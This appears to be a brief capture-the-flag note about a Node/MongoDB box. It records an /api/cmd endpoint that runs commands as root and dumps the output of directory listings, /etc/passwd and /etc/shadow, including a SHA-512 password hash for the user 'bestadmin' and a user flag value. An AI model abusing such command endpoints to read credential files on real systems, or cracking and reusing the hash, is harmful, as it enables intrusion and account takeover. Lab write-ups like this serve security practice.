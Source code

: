 ## Commands

/api/cmd gives command execution

# ls

bin
boot
data
dev
etc
home
lib
lib64
local
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

# pwd 

/

# whoami

root (!!!!)

# home dirs

bestadmin
ec2-user

# etc-passwd
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
libstoragemgmt:x:999:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
ec2-instance-connect:x:998:996::/home/ec2-instance-connect:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
mongod:x:996:994:mongod:/var/lib/mongo:/bin/false
bestadmin:x:1001:1001::/home/bestadmin:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
```

# etc-shadow
```
root:*LOCK*:14600::::::
bin:*:17919:0:99999:7:::
daemon:*:17919:0:99999:7:::
adm:*:17919:0:99999:7:::
lp:*:17919:0:99999:7:::
sync:*:17919:0:99999:7:::
shutdown:*:17919:0:99999:7:::
halt:*:17919:0:99999:7:::
mail:*:17919:0:99999:7:::
operator:*:17919:0:99999:7:::
games:*:17919:0:99999:7:::
ftp:*:17919:0:99999:7:::
nobody:*:17919:0:99999:7:::
systemd-network:!!:18065::::::
dbus:!!:18065::::::
rpc:!!:18065:0:99999:7:::
libstoragemgmt:!!:18065::::::
sshd:!!:18065::::::
rpcuser:!!:18065::::::
nfsnobody:!!:18065::::::
ec2-instance-connect:!!:18065::::::
postfix:!!:18065::::::
chrony:!!:18065::::::
tcpdump:!!:18065::::::
ec2-user:!!:18128:0:99999:7:::
mongod:!!:18128::::::
bestadmin:$6$MzQI89D0$4p.2RpwZIFmTxQgKL.ZIsABfpHkejb3x.TdxZWqhIeVF8YQf2zY2fUQAgVehQJp0mXi4GF74YSRpnLHuItUYn.:18128:0:99999:7:::
tss:!!:18128::::::
```

# home dir bestadmin

bin
new-room
run.sh 			Startup script. Mongodb && server
user.txt        5W7WkjxBWwhe3RNsWJ3Q

# new room 
controllers
cron.js
models
node_modules
package.json
package-lock.json
routes
server.js
views